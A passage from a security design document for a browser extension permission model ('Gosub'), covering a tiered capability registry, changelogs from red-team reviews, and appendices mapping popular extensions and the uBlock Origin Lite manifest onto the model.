                                             timing; no editable/password fields;
                                             no IME/clipboard
input.raw_keys(hosts)                 loud      source: keystrokes
content_handler(origin, mimes)        standard  scoped by ORIGIN + MIME;
                                             source: page_content/credentials;
                                             isolated principal; network-origin
                                             responses only; refuses cross-origin-
                                             credentialed unless origin matches
context.selection_text                standard  gesture-scoped source: selection
context.page_url / link_url / media_url standard gesture-scoped source: tab_urls

-- Capture --
capture.tab_pixels                    loud   persistent indicator; source: pixels
capture.tab_video                     loud   persistent indicator
(microphone/camera: web permission model, not extension capabilities)

-- Tabs & downloads --
tabs.snapshot                         standard  browser-rendered gesture only,
                                             rate-limited/coarsened; source:tab_urls
tabs.events                           loud      source: tab_urls
tabs.organize                         standard  close/move/group — no sink
tabs.open / tabs.navigate             standard  sink: arbitrary_network
downloads.create(url)                 standard  sink: arbitrary_network;
                                      actuator: os (a download IS a request)
downloads.history                     loud      source: download_urls + metadata
downloads.control                     standard  pause/resume/cancel/erase
downloads.open                        gated     actuator: os; browser gesture
                                      required

-- Storage --
storage.private                       silent
storage.managed                       gated   command-source: enterprise_policy
                                             (admin config can change behavior)

-- Cookies --
cookies.read(hosts)                   loud   source: credentials/session
cookies.write(hosts)                  loud   I:high
cookies.read_httponly(hosts)          gated  never default for ordinary extensions

-- Browser UI (attribution per §17) --
ui.toolbar, ui.commands               silent
ui.context_menu                       silent  register/display only — the
                                             information is in context.* above
ui.notifications                      standard
ui.omnibox_register                   standard  browser_ui actuator (keyword UI)
omnibox.input                         standard  source: user_text;
                                      command-source: user (typed after keyword)
omnibox.navigate                      standard  actuator: navigation +
                                      sink: arbitrary_network
ui.devtools_panel                     standard  UI panel ONLY — carries none of
                                      the DevTools data authority below
devtools.network                      loud      source: history + page_content
                                      (HAR log + response bodies)
devtools.inspected_eval               gated     page.main_world_inject-equivalent
                                      (eval in the inspected page)
devtools.dom                          loud      source: page_content
ui.newtab_override                    standard  browser attribution + restore

-- System & lifecycle --
system.native_messaging(hosts)        gated   sink: native_host +
                                             command-source: native_process
                                             (bidirectional). Derived:
                                             native_process × filter_policy ->
                                             native.filter_control, etc.
system.user_scripts                   gated   sink: user_scripts; fetched
                                             content may not become a user script
extension.private_browsing            §12     denied / isolated /
                                             isolated_network / spanning
scheduling                            silent  (never relied upon absent for
                                             stats decorrelation)
```

Deltas from v0.2: egress replaces fetch and covers all transports; redirect split into resource/surrogate; styles split into safe/raw; cosmetic/procedural gated on compositor-invisibility; dynamic_rules gains implicit_history + the no-new-action invariant; stats.read reduced to one counter; forms.fill gains the browser-managed store; content_handler scoped by origin; context.* split from ui.context_menu; cookies.* added; tabs split into snapshot/events/organize/open/navigate; header match/modify sets separated with byte validation. v0.2.1 deltas: `stats.read` relabeled `implicit_history` (defense is a privacy budget, not dimensionality); `dom.declarative_actions` reduced to a semantic op set with generic clicking moved to loud `dom.actions_arbitrary`; command-axis labels populated on `proxy_control`, `native_messaging`, `storage.managed`; `downloads` split into create/history/control/open; `omnibox`/`devtools` split so their input/network/eval/HAR authority is separately tiered.

---

## Open Questions (v2.1)

```text
Resolved since v2 (by red-team):
  effect-based labeling; two-axis (command) composition; publisher-
  principal closure; single-counter stats; redirect resource/surrogate
  split; hash-pinned remote lists; browser-managed credential store;
  renderer-revalidated document identity; schema-generated broker parser
  with unforgeable handles; DAG/step-cap artifact validation; egress-as-
  effect + CRLF + socket-bind + canonicalization; frame-tree-wide grant
  teardown; control-plane IPC priority.

Still open:
  O1  Baleen build-vs-embed — threshold stated (§14); awaits benchmarks.
  O2  Exhaustive WebExtension API-surface list and priority.
  O3  The exact procedural DSL operator set at launch (criterion in §8).
  O4  Privileged / first-party extensions and how extra authority shows.
  O5  stats privacy-budget parameters (criterion: a single-site probe
      needs O(weeks) to distinguish one visit from noise).
  O6  Signing / trust MECHANISM (the UA-side implementation of §17
      distribution). Publisher IDENTITY and transfer semantics are no
      longer open — they are now part of the model (§13), because
      publisher-principal closure (§5) depends on them.
  O7  Covert-channel review (storage/cache/DNS/timing/quota) — the one
      area the confidentiality argument does not yet fully reach; owns
      the same-publisher and timing residuals.
```

## Design Goal

A user installing an ad blocker, a password manager, or a tab organizer should be able to read the installation dialog and have it be *true* — not a legal fiction covering the worst case of a bundled grant. Most extensions should hold only declarative rules, one narrow scoped capability, or a channel to their own service. Broad power should be rare, loud, honestly described, and revocable — and the sum of granted capabilities across a publisher, over both information and command flow, is what the model accounts for.

## Changelog: v2 → v2.1

Driven by five red-team passes (Claude, ChatGPT, DeepSeek ×2, Gemini).

1. **Composition made effect-based and two-axis (§5).** Labels attach to observable effect, not API namespace; a second command-source × actuator axis catches remote control with no data leaving; the closure principal is the publisher/communicating set, not the package; warnings recompute on update.
2. **content_script / active_tab are inherent sinks; active_tab no longer silent.**
3. **Egress replaces fetch (§15, §19):** all network-producing operations route through one Sonar egress policy keyed on effect; `network.fetch_*` → `network.egress_*`.
4. **tabs split:** organize (no sink) vs open/navigate (sinks).
5. **styles split:** inject_safe (no network CSS) vs inject_raw (loud, page_content); cosmetic/procedural gated on compositor-invisibility and attacker-chosen-URL removal (§6, §8).
6. **stats.read reduced to one dimensionless counter (§7);** defense rests on quantization not timing.
7. **redirect split** into resource (passive) and surrogate (isolated realm, loud when extension-supplied) (§6).
8. **remote_rulesets hash-pinned mandatorily (§9).**
9. **forms.fill browser-managed origin-bound store; mediated detection; opaque rate-limited candidates (§19).**
10. **content_handler scoped by origin; context.* split from ui.context_menu (§19).**
11. **cookies.read/write/read_httponly added; header match-set separated from modify-set (§15, §19).**
12. **Grant lifecycle hardened (§13):** renderer revalidates document identity at execution; frame-tree-wide teardown; revocation pre-empts the worker via control-plane priority and re-evaluates live documents.
13. **Baleen validation covers termination (§14):** DAG/step-cap invariant, safe handles, audited fuzzed validator.
14. **Sonar correctness (§15):** RFC-9110 header-value validation (CRLF); connect-to-resolved-SocketAddr (DNS-rebind); one shared canonicalizer with the translator (§3).
15. **Broker (§16):** schema-generated parser, unforgeable capability handles, sandboxed seccomp compiler.
16. **private_browsing:** guarantee restated as no *browser-provided* channel; `isolated_network` mode added (§12).
17. **filtering.allow scoped to self; dynamic_rules never confers a new action (§19).**
18. **web_accessible_resources randomized per session + origin-scoped.**
19. **Appendix C corrected:** the `filtering.*` wildcard and `filtering.modify_headers` references removed.
20. Stated criteria: Baleen build-vs-embed threshold, procedural operator inclusion, stats privacy budget; covert-channel review named as O7.

## Changelog: v2.1 → v2.1.1

A sixth red-team pass. The core §5 model survived again; these are two model-bug fixes plus label-completion and honesty corrections.

1. **§3 loopback-origin bug fixed.** `canonical_origin()` (scheme+host+port; `localhost`, `127.0.0.1`, `[::1]` stay distinct) is split from `classify_address_space()` (groups them as loopback for egress/SSRF). The prior wording collapsed distinct origins — a privilege expansion for origin-scoped grants.
2. **§7 single-rule stats oracle fixed.** One dimensionless counter does *not* close the oracle — an attacker ships one rule and reads its site's hits. `stats.read` is relabeled `source: implicit_history`; the defense is now an explicit browser-owned privacy budget with a stated leakage bound, not counter shape. The quantization-boundary priming attack is noted.
3. **§19 `dom.declarative_actions` re-modeled as semantic.** The browser cannot decide "state-changing" from DOM structure, so generic clicking moved to loud `dom.actions_arbitrary`; declarative actions are now a fixed browser-recognized op set (dismiss_consent, etc.).
4. **Command axis populated (§5, §19).** `proxy_control` relabeled `implicit_history + arbitrary_network` (publisher's proxy observes externally → `traffic.exfiltration`); `native_messaging` gains `command-source: native_process`; `storage.managed` gains `command-source: enterprise_policy`. §5 clarifies axis 2 is a derived-pattern detector fed by per-entry actuator labels.
5. **API bundles split (§19).** `downloads` → create (network sink) / history (source) / control / open (gated); `omnibox` → register / input (user_text source) / navigate (nav+network); `devtools` → panel-UI vs `devtools.network` (HAR+bodies) / `devtools.inspected_eval` (main-world) / `devtools.dom`.
6. **Publisher identity promoted into the model (§13).** Publisher = signing-key identity; publisher transfer/key-rotation is a grant-lifecycle event that recomputes closure and re-consents. O6 reduced to the signing *mechanism*.
7. **Remote-list update contradiction resolved (§9).** Package-pinned hashes can't update; Gosub adopts the transparency/catalog model C — the UA/store approves immutable (version, hash) revisions, the server only distributes bytes.
8. **Remote-control claims scoped (§11).** "Cannot be controlled by a remote server" is false across updates; restated as "no runtime remote-data channel can reprogram filtering between authenticated updates." `publisher_update` named as the command source every auto-updating extension holds.

---

# Appendices

Appendices A–C are carried as empirical grounding. Capability names map to registry v0.2.1 (§19); where older names appear in prose, read their v2.1 successors (`network.fetch_*`→`network.egress_*`, `tabs.metadata`→`tabs.snapshot`/`tabs.events`, `filtering.redirect`→`filtering.redirect_resource`/`_surrogate`, `filtering.modify_headers`→`filtering.headers.*`, `styles.inject`→`styles.inject_safe`/`_raw`, `content_script.active_tab` is standard not silent). A worked v2.1 manifest set — an ad blocker and a password manager expressed in this registry with their derived-authority dialogs — accompanies this document as `manifests-v2.1.md`.

## Appendix A: Capability Test Suite

The following ten real-world extensions are deliberately chosen to vary functionality as much as possible. Together they act as a test suite for the capability model: a design that handles all ten has covered most of the extension ecosystem.

| # | Extension | Capability axis stressed |
|---|-----------|--------------------------|
| 1 | uBlock Origin | Declarative network + cosmetic filtering |
| 2 | Bitwarden | Secret storage, form detection, autofill |
| 3 | Consent-O-Matic | Active DOM interaction (clicking cookie banners) |
| 4 | Dark Reader | Global style rewriting, reading computed styles |
| 5 | Tampermonkey | Arbitrary user-supplied script injection |
| 6 | Grammarly | Reads all text input, sends contents to remote servers |
| 7 | JSON Formatter | Response rendering / content-type takeover |
| 8 | Vimium | Global keyboard capture + overlay UI, no network access |
| 9 | OneTab | Tab metadata and session state only |
| 10 | MetaMask | Injects API into page JS world, key custody, permission prompts |

### Tier 1: Fits the Restricted Model Cleanly

**uBlock Origin (1)** is the happy path: declarative rules evaluated by the native filter engine, browser-rendered statistics, no page access required for core functionality.

**OneTab (9)** is the minimal profile: tab metadata and private storage, zero page content access. It demonstrates that `tabs.metadata` should be a distinct capability from `tabs.content`.

**Consent-O-Matic (3)** splits in two. Hiding cookie banners is ordinary cosmetic filtering. Automatically clicking "reject all" is not expressible as filtering — it requires either a new declarative primitive (declarative DOM actions) or a content script. This is a genuine design question:

```text
dom.declarative_actions   click / select matching elements
                          per compiled rules, no script access
```

### Tier 2: Broad Access, Narrow Purpose

**Bitwarden (2)**, **Dark Reader (4)**, and **Vimium (8)** all need access to every page, but each for one narrow purpose. They test whether Gosub can define mid-tier capabilities instead of falling back to "content scripts everywhere":

```text
forms.autofill       detect and fill credential fields
styles.inject        install page-wide stylesheets
styles.read          read computed styles
input.global_keys    capture keyboard input, render overlay UI
```

Each of these is far less dangerous than arbitrary content scripts, and each can be described honestly in an install dialog.

### Tier 3: Irreducibly Powerful

**Tampermonkey (5)** is arbitrary code execution by design. **Grammarly (6)** is "read everything the user types and transmit it" by design. **MetaMask (10)** injects an API into the page's JavaScript world and custodies signing keys.

The capability model cannot neuter these. What it can do is:

- make their power legible in the installation dialog;
- make it revocable per-site;
- ensure that *other* extensions do not need equivalent power.

```text
This extension can read and modify everything on all pages,
and can send what it reads to remote servers.
```

A user who accepts that sentence for Grammarly has made an informed choice. The failure mode of MV2 was that an ad blocker required the same sentence.

### Tier 4: Missing Category

**JSON Formatter (7)** exposes a category the model above does not cover: response rendering. The extension takes over display of a response instead of the browser's default handling.

A natural fit is a content-handler capability scoped by MIME type:

```text
content_handler:
    types: ["application/json"]
```

Scoping by MIME type keeps this narrow: a JSON viewer registered for `application/json` never sees HTML pages.

### Additional Cases Worth Tracking

```text
SingleFile      full-page capture: entire DOM + subresources
Screenshot      tab pixel capture (a capability nothing above needs)
LocalCDN        redirect-to-packaged-resource only; fits the
                constrained-redirect rule exactly
Stylus          user CSS; declarative subset of Dark Reader
```

### Summary



The design goal restated through this lens:

> **Most extensions should live in Tiers 1, 2, and 4. Tier 3 should be rare, loud, and honest.**

---

## Appendix B: Extended Extension Survey

Twenty-five additional popular extensions, extending the test suite. Tier numbers refer to the taxonomy in Appendix A.

| # | Extension | Requires | Tier |
|---|-----------|----------|------|
| 11 | Google Translate | Selection context menu, page text rewrite | 2 |
| 12 | Honey / Rakuten | Read checkout pages, inject UI, fetch coupon data | 3 |
| 13 | Momentum | New-tab page override | 2 |
| 14 | Pocket / Raindrop | Send URL + title to service, OAuth | 2 |
| 15 | Notion Web Clipper | Page content capture, OAuth | 2–3 |
| 16 | React DevTools | DevTools panel, inspect page JS state | 3 (dev) |
| 17 | Wappalyzer / BuiltWith | Read DOM + response headers | 3 |
| 18 | NoScript | Per-site script blocking | 1 |
| 19 | Privacy Badger | Learns trackers from observed traffic | conflict |
| 20 | Ghostery | Tracker blocking + per-site reporting | 1 + stats |
| 21 | Decentraleyes | Redirect CDN requests to packaged resources | 1 |
| 22 | User-Agent Switcher | Request header rewrite | 1 |
| 23 | ModHeader | Arbitrary header add/remove per rules | 1 |
| 24 | Redirector | User-defined URL redirects | 1 |
| 25 | SponsorBlock | Video player control, crowdsourced segment data | 2–3 |
| 26 | Return YouTube Dislike | DOM injection + fetch from own API | 2–3 |
| 27 | Video DownloadHelper | Sniff media requests, downloads API | conflict |
| 28 | GoFullPage / Awesome Screenshot | Tab pixel capture | 2 (new) |
| 29 | Loom | Tab/screen + microphone recording | 2 (new) |
| 30 | ColorZilla | Pixel eyedropper, clipboard write | 2 (new) |
| 31 | Read Aloud / Speechify | Page text extraction, TTS | 2 |
| 32 | Mercury / Reader View | Extract article, re-render page | 4 |
| 33 | Zotero Connector | Page scraping + native messaging to desktop app | 3 (new) |
| 34 | FoxyProxy / VPN extensions | Proxy settings control | new |
| 35 | Checker Plus for Gmail | OAuth, notifications, alarms, badge | 2 |

Notable result: NoScript — long considered one of the most powerful extensions — reduces to Tier 1 under this model. Per-site script blocking is expressible entirely as filtering rules. Ghostery's per-site dashboards are the aggregate `stats.read` case from the statistics section.

### New Capability Gaps

This survey surfaces five capability categories the first ten extensions did not:

#### 1. Own-Service Networking

Honey, SponsorBlock, Return YouTube Dislike, and Pocket all need to make requests to **their own backend services**. This is entirely different from observing page traffic, yet traditional host permissions bundle the two together.

```text
network.fetch_own:
    hosts: ["api.sponsorblock.example"]
```

The install dialog can then distinguish:

> This extension talks to sponsorblock.example.

from:

> This extension watches your browsing.

#### 2. Scoped Observation

Video DownloadHelper and Privacy Badger genuinely cannot function without observing traffic. But neither needs full observation:

```text
network.observe:
    types: ["media"]          # Video DownloadHelper

network.observe_aggregate:
    granularity: "etld+1"     # Privacy Badger
    strip: ["path", "query"]
```

Observation should not be binary. Type-scoped and aggregated observation can rescue legitimate use cases without granting a full request logger.

**Privacy Badger is stated plainly (v2):** Gosub does not support heuristic tracker learning at any silent or standard tier. Privacy Badger's learning mode works exactly as well as its observation grant, which is loud — aggregated eTLD-level observation may narrow that grant, but the incompatibility below the loud tier is a deliberate trade of this architecture, not an open compromise.

#### 3. Capture

Screenshot tools, Loom, and ColorZilla need tab pixel data:

```text
tabs.capture_pixels
tabs.capture_video
media.microphone
```

These are inherently loud, easy to describe honestly, and needed by nothing in Tiers 1 or 4.

#### 4. Out-of-Browser Bridges

Native messaging (Zotero, password manager desktop apps) and proxy control (FoxyProxy, VPN extensions) punch through the browser boundary into the OS or network configuration:

```text
native_messaging:
    hosts: ["org.zotero.connector"]

network.proxy_control
```

These are Tier-3-adjacent regardless of design. The model's contribution is making them separate, named, individually-granted permissions rather than implicit bundles.

#### 5. Browser-UI Surfaces

New-tab override, DevTools panels, context menus, notifications, omnibox keywords. Low risk; primarily API surface to implement over time:

```text
ui.newtab_override
ui.devtools_panel
ui.context_menu
ui.notifications
ui.omnibox
```

### Revised Summary



The pattern across all 35 extensions: the overwhelming majority need either declarative rules, one narrow capability, or their own backend — not arbitrary access. Full-page content scripts remain necessary for a minority, and full traffic observation for almost none.

---

## Appendix C: Worked Translation Example — uBlock Origin Lite

A concrete test of the translation model in §14, using the live uBO Lite chromium manifest (MV3, v2026.804.1652, 421 lines). The question: what must change to run it on Gosub?

**Answer: nothing.** The manifest installs via translation alone. An optional `gosub` key can narrow the grant further.

### Keys That Translate Cleanly

```text
declarative_net_request        ->  filtering.block / .allow /
  (55 packaged rulesets:           .redirect_resource — explicit,
  (55 packaged rulesets:           Rulesets compile directly into
   ublock-filters, easylist,       the native filter engine. These
   easyprivacy, regional lists)    packaged JSON files are already
                                   the compiled-ruleset artifact
                                   that the broker installs into
                                   the network layer.

action (popup, icons)          ->  ui.toolbar
commands (zapper, picker)      ->  ui.commands
storage + unlimitedStorage     ->  storage.private
                                   ("unlimited" becomes resource
                                   management, not a permission)
alarms                         ->  scheduling
background.service_worker      ->  event-driven extension worker
```

### activeTab: Worth Adopting As-Is

`activeTab` grants temporary, user-gesture-scoped access to a single tab. It is how uBO Lite's element zapper and picker work without permanent page access.

This maps naturally onto the capability model as a first-class temporal capability:

```text
content_script.active_tab:
    scope:    single tab
    trigger:  explicit user gesture
    lifetime: until navigation
```

### Chrome-isms That Translate to Nothing

```text
offscreen                aid for service-worker DOM limitations;
                         unnecessary if the Gosub worker runtime
                         provides what workers actually need
incognito: "split"       -> extension.private_browsing: isolated (see section 12)
minimum_chrome_version   not applicable
```

### The Interesting Cases

**`host_permissions: ["<all_urls>"]` + `scripting`.** This pair is why even the declarative uBO needs broad grants on Chrome: cosmetic filters and scriptlets are injected through the scripting API. Under this model the pair collapses:

- generic cosmetic rules -> native cosmetic engine (no page access);
- scriptlets and procedural filters -> `content_script`, per-site revocable.

The broad host grant disappears from the install dialog entirely.

**`userScripts`.** uBO Lite uses this for custom user filters that require injection. This confirms the gated user-scripts capability is not only for userscript managers — uBO itself is a customer.

**`web_accessible_resources`.** The packaged surrogate list — `noop.js`, `googletagservices_gpt.js`, `google-analytics_ga.js`, `1x1.gif`, and several dozen more — is exactly the constrained-redirect target set required by the observe/control separation. The security rule falls out of an existing manifest key:

> **`filtering.redirect` may only target resources declared in `web_accessible_resources`.**

This constrains redirect targets using an existing manifest concept; combined with the static-target and unobservable-load rules of section 6, it closes the redirect feedback channel.

### The Narrowed Gosub Grant

```json
"gosub": {
  "capabilities": [
    "filtering.block",
    "filtering.redirect_resource",
    "filtering.redirect_surrogate",
    "filtering.cosmetic",
    "filtering.headers.request.remove",
    "storage.private",
    "ui.toolbar",
    "ui.commands",
    "stats.display",
    "content_script"
  ],
  "redirect_resources": "web_accessible_resources"
}
```

### Net Result vs Chrome

```text
Removed:   <all_urls> host permissions
Gained:    stats.display — the blocked-count badge that Chrome
           requires a local build with an extra permission to show
Remaining: one loud grant (content_script), scoped to scriptlets,
           revocable per site
```

The installation dialog changes from:

> Read and change all your data on all websites.

to an honest description of what an ad blocker does.